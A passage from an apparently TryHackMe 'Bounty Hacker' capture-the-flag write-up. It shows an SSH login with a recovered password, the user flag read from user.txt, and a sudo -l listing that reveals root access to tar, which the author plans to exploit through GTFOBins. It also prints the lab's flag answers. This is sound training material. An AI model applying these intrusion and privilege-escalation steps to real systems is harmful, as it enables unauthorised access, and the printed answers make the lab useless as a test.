 - So the password for the `lin` user is `RedDr4gonSynd1cat3`.
### Answer
```
RedDr4gonSynd1cat3
```

&nbsp;

### user.txt
- Let's login using the credentials we have.
```
$ ssh lin@10.10.245.97  
The authenticity of host '10.10.245.97 (10.10.245.97)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.245.97' (ED25519) to the list of known hosts.
lin@10.10.245.97's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
- After lookin around we can see a `user.txt` file. Let's `cat` that file.
```
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```
###  Answer
```
THM{CR1M3_SyNd1C4T3}
```

### root.txt
- We can list out the files that the `lin`  user is able to run using the following command:
```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
- We can now use GTFOBins to escalate our privilege.
